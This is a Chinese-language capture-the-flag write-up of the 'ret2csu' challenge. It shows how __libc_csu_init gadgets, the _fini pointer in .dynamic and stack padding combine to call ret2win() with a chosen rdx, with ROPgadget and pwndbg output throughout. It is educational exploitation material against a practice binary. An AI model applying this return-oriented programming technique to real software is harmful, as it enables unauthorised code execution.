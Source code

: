 > 1. The challenge is simple: call the ret2win() function
> 2. The third argument (rdx) must be 0xdeadcafebabebeef
> 3. There's no gadget such as `pop rdx`

<br>

## Reverse
根据题意，呼叫 ret2win()，并且第三个参数为 0xdeadcafebabebeef 即可。

<br>

## ROP Gadgets
用 ROPgadget 看一下，没有可用的 gadgets。
```
> ROPgadget --binary ret2csu | grep rdx
0x0000000000400567 : lea ecx, [rdx] ; and byte ptr [rax], al ; test rax, rax ; je 0x40057b ; call rax
0x000000000040056d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
```

## Return-to-csu
Video: [BlackHat Asia 2018 - return-to-csu: A New Method to Bypass 64-bit Linux ASLR](https://www.youtube.com/watch?v=mPbHroMVepM)

<br>

在 __libc_csu_init() 里面，我们可以找到两个很有用的 gadgets。
```
pwndbg> disas __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x0000000000400840 <+0>:     push   r15
   0x0000000000400842 <+2>:     push   r14
   0x0000000000400844 <+4>:     mov    r15,rdx
   0x0000000000400847 <+7>:     push   r13
   0x0000000000400849 <+9>:     push   r12
   0x000000000040084b <+11>:    lea    r12,[rip+0x2005be]        # 0x600e10
   0x0000000000400852 <+18>:    push   rbp
   0x0000000000400853 <+19>:    lea    rbp,[rip+0x2005be]        # 0x600e18
   0x000000000040085a <+26>:    push   rbx
   0x000000000040085b <+27>:    mov    r13d,edi
   0x000000000040085e <+30>:    mov    r14,rsi
   0x0000000000400861 <+33>:    sub    rbp,r12
   0x0000000000400864 <+36>:    sub    rsp,0x8
   0x0000000000400868 <+40>:    sar    rbp,0x3
   0x000000000040086c <+44>:    call   0x400560 <_init>
   0x0000000000400871 <+49>:    test   rbp,rbp
   0x0000000000400874 <+52>:    je     0x400896 <__libc_csu_init+86>
   0x0000000000400876 <+54>:    xor    ebx,ebx
   0x0000000000400878 <+56>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400880 <+64>:    mov    rdx,r15
   0x0000000000400883 <+67>:    mov    rsi,r14
   0x0000000000400886 <+70>:    mov    edi,r13d
   0x0000000000400889 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040088d <+77>:    add    rbx,0x1
   0x0000000000400891 <+81>:    cmp    rbp,rbx
   0x0000000000400894 <+84>:    jne    0x400880 <__libc_csu_init+64>
   0x0000000000400896 <+86>:    add    rsp,0x8
   0x000000000040089a <+90>:    pop    rbx
   0x000000000040089b <+91>:    pop    rbp
   0x000000000040089c <+92>:    pop    r12
   0x000000000040089e <+94>:    pop    r13
   0x00000000004008a0 <+96>:    pop    r14
   0x00000000004008a2 <+98>:    pop    r15
   0x00000000004008a4 <+100>:   ret
End of assembler dump.
```

gadget1：
```
   0x0000000000400880 <+64>:    mov    rdx,r15
   0x0000000000400883 <+67>:    mov    rsi,r14
   0x0000000000400886 <+70>:    mov    edi,r13d
   0x0000000000400889 <+73>:    call   QWORD PTR [r12+rbx*8]
```

gadget2：
```
   0x000000000040089a <+90>:    pop    rbx
   0x000000000040089b <+91>:    pop    rbp
   0x000000000040089c <+92>:    pop    r12
   0x000000000040089e <+94>:    pop    r13
   0x00000000004008a0 <+96>:    pop    r14
   0x00000000004008a2 <+98>:    pop    r15
   0x00000000004008a4 <+100>:   ret
```

通过 gadget2 和 gadget1，我们可以控制 edi, rsi, rdx，也就是前三个参数。

至于 `r12 + rbx*8` 我们可以试着拼凑出一个指向 plt 或 got 中某条 entry 的 address。

<br>

## Pwn
但这题有个很坑的地方：在 GOT/PLT 中我们无法找到 ret2win() 的 entry，但是透过以下方法可以找到：
```
pwndbg> info address ret2win
Symbol "ret2win" is at 0x4007b1 in a file compiled without debugging.
```

我们只要想办法在内存某处，塞入这个 address 然后让 r12 + rbx*8 指向 address 所在的那个 qword 即可。

但是如果是在 stack 上，这肯定是不可行的，因为 ASLR = 1、2 时 stack 的位址是随机化的。

但这题有个很奇怪的点，不知道为什么 fgets() 输入的东西，居然会被映射在 heap 上某处！？？？

然后因为 PIE 没开启，只要 ASLR = 0 或 1，这题就可以轻松解决！

但这里不说这个，有兴趣自己试试看，我们说说比较可靠的解法。

<br>

到 *__libc_csu_init+73 的时候，会呼叫 [r12+rbx*8] 这个位址的 function，我们必须：
1. 不要 segfault
2. 不要动到 rdx
```
   0x0000000000400880 <+64>:    mov    rdx,r15
   0x0000000000400883 <+67>:    mov    rsi,r14
   0x0000000000400886 <+70>:    mov    edi,r13d
   0x0000000000400889 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040088d <+77>:    add    rbx,0x1
   0x0000000000400891 <+81>:    cmp    rbp,rbx
   0x0000000000400894 <+84>:    jne    0x400880 <__libc_csu_init+64>
   0x0000000000400896 <+86>:    add    rsp,0x8
   0x000000000040089a <+90>:    pop    rbx
   0x000000000040089b <+91>:    pop    rbp
   0x000000000040089c <+92>:    pop    r12
   0x000000000040089e <+94>:    pop    r13
   0x00000000004008a0 <+96>:    pop    r14
   0x00000000004008a2 <+98>:    pop    r15
   0x00000000004008a4 <+100>:   ret
```

有个很好的对象可以呼叫，看看 _fini()：
```
pwndbg> disas _fini
Dump of assembler code for function _fini:
   0x00000000004008b4 <+0>:     sub    rsp,0x8
   0x00000000004008b8 <+4>:     add    rsp,0x8
   0x00000000004008bc <+8>:     ret
End of assembler dump.
```

在 .dynamic (dynamic section) 里记录了 _fini() 的真实位址：
```
pwndbg> x/10gx &_DYNAMIC
0x600e20:       0x0000000000000001      0x0000000000000001
0x600e30:       0x000000000000000c      0x0000000000400560
0x600e40:       0x000000000000000d      0x00000000004008b4 <--- _fini
（省略若干行）
```

所以我们只要让 r12+rbx*8 等于 0x600e48， 那么 qword ptr [r12+rbx*8] 就会等于 0x00000000004008b4。

但必须注意，在 call qword ptr [r12+rbx*8] 之后：
```
0x000000000040088d <+77>:    add    rbx,0x1
0x0000000000400891 <+81>:    cmp    rbp,rbx
0x0000000000400894 <+84>:    jne    0x400880 <__libc_csu_init+64>
```

我们可以让 rbx = 0，rbp = 1，这样 rbx += 1 之后就会和 rbp 相等，就不会 jne 0x400880。

接着就会继续执行后面几行：
```
0x0000000000400896 <+86>:    add    rsp,0x8
0x000000000040089a <+90>:    pop    rbx
0x000000000040089b <+91>:    pop    rbp
0x000000000040089c <+92>:    pop    r12
0x000000000040089e <+94>:    pop    r13
0x00000000004008a0 <+96>:    pop    r14
0x00000000004008a2 <+98>:    pop    r15
0x00000000004008a4 <+100>:   ret
```

要注意在 pop rbx 到 ret 之前，还有个 add rsp, 0x8！

所以这边开始需要 `7 * 'AAAAAAAA' + ret2win` 而不是 `6 * 'AAAAAAAA' + ret2win` (多垫一组 padding)
